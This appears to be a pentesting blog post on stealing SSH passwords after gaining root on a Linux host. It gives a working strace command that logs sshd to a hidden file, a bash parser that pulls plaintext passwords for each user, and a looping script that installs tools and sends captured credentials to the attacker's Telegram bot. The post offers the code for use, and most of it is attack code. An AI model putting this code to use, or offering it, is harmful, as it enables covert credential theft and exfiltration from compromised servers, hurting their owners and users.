 ```yaml
---
layout: post
title: Stealing SSH credentials.
description: Some times during a pentest you get a root access to a linux workstation or a server, but you don't have the root password, so what to do to get it?
keywords: ssh, pwning, bash, G4mbl3r
disqus: true
tags: [SSH]
categories: Persistence
---
```

#### Ok I became root what can I do now?.

BEFORE ALL, it's an old trick, but all the tutorials that I found didn't work for me, so I just wrote my own :).

Sometimes when you get root access to a server or a workstation, you don't really have the root password, sometimes you just exploit the server, and got id 0, what can I do in this case?

Well I know two ways to do this, recompile ssh with some extra code, or monitor sshd proccess and get the password on the fly, this time I'll talk about the second option.

There is a linux tool called strace, it's a debbuger, where you can attach running proccess to (WAIT FOR IT) debug it, so basically, what I'm going to do is monitor the sshd proccess.

{% highlight bash %}
strace -f -p $(pgrep -f "/usr/sbin/sshd") -s 128 -o /root/.gpg/auth.log
{% endhighlight %}

Let's undestand what it's doing,
strace : Debbuger
-f : Option to monitor child proccess
-p : Option to set the sshd proccess pid
-s : limit the string size to 128 the default is 32
-o : set the output file (REALLY IMPORTANT)

so just to test start the strace log on your linux over ssh, stop strace and do a grep for your password on the output file and it'll be there.

But it's not enought, we need to parse the file to get the user that owns this password, and get if the login was successful, to do that I wrote a bash script to get the password of every user with a shell.
{% highlight bash %}
for user in $(grep -vE 'nologin|false' /etc/passwd | cut -d ":" -f 1);do
  PASSWORD=$(grep -B 40 -E "authentication.*$user" .gpg/auth.log | grep "read(6" | grep -v unfinished | cut -d '"' -f 2 | sed 's/\\.//g')
  if [  "$PASSWORD" ];then
    echo "USER: $user"
    echo $NEWPASS
  fi
done
{% endhighlight %}

OUTPUT:
{% highlight bash %}
USER: gambler
5umasenhamuitoforteaqui!!!
{% endhighlight %}


BUT WAIT...

It's not a perfect method, it's functional but no perfect, as you can se on my grep, a search for some infos, that may change from one distro to another, so if you want to use it on your pentest's, be prepared to write your own greps, also, the sshd receives some nullbytes with the password, where I remove with the sed, but the next byte after the nullbytes is the size of the password, so how I'm totally laze I don't expend too much time trying to clean this info, then some times the password came with an extra character on begin, just like in the output above, there is the character 5 on the begining of the password.

Just to help all the tests were made on a Debian 9 with openssh-server 7.4p1-10+deb9u2.

And just to complete, here is a example of how get notified when you capture a password,

{% highlight bash %}
#!/bin/bash

API="YOUR BOT API GOES HERE"
USERID="YOUR TELEGRAM NUMERIC ID GOES HERE"
PATHLOG="/root/.gpg"
LOGFILE="$PATHLOG/auth.log"
LASTPASS=""
NEWPASS=""
MIDDLEWARE=""

function install(){
  if ! command -v strace || ! command -v curl;then
    if command -v apt-get &> /dev/null ;then
      apt-get install strace curl
    elif command -v yum &>/dev/null ;then
      yum install strace curl
    fi
  fi
}

function sendMessage(){
  if [[ "$MIDDLEWARE" != "$LASTPASS"  ]];then
    MESSAGE="$MIDDLEWARE"
    curl --silent "https://api.telegram.org/bot$API/sendMessage?chat_id=$USERID&text=$MESSAGE" >> /dev/null
    LASTPASS="$MIDDLEWARE"
  fi
}

function debian(){
  for user in $(grep -vE 'nologin|false' /etc/passwd | cut -d ":" -f 1);do
    NEWPASS=$(grep -E "authentication.*acct=..$user" .gpg/auth.log -B 50 | grep "write(4" | grep unfinished | cut -d '"' -f 2 | sed 's/\\.//g')
    if [ ! -z "$NEWPASS" ];then
	    NEWPASS="USER: $user PASSWD: $(echo $NEWPASS | tr '\n' ' ')"
      MIDDLEWARE="$MIDDLEWARE $NEWPASS"
    fi
  done
  echo "$MIDDLEWARE"
}

function main(){
  debian
  sendMessage
  MIDDLEWARE=""
  sleep 1
}
while true;do
main
done
{% endhighlight %}

This bash script send a message to you on telegram when it's identify a new password.
